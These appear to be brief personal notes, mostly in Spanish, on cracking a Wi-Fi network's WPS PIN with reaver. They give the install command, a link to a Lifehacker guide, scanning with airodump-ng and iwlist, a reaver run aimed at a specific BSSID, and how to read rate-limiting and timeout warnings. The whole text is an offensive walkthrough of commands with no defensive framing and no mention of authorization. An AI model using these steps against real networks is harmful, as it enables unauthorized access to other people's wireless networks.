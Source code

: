 pacman -S reaver

http://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver

airodump-ng wlo1

iwlist wlo1 scan
apuntamos el bbsid


reaver -i wlo1mon -b 8D:AE:9D:65:1F:B2 -vv

Mirar los mensajes.
A lo mejor, tras dos o tres intentos, el programa se para porque el AP le limita el número de conex.
  [!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking

Si vemos muchos timeout tambien es posible que vaya mal.
  [!] WARNING: Receive timeout occurred

Cada rato saca estadísticas, con esto podemos ver cuanto va a tardar.
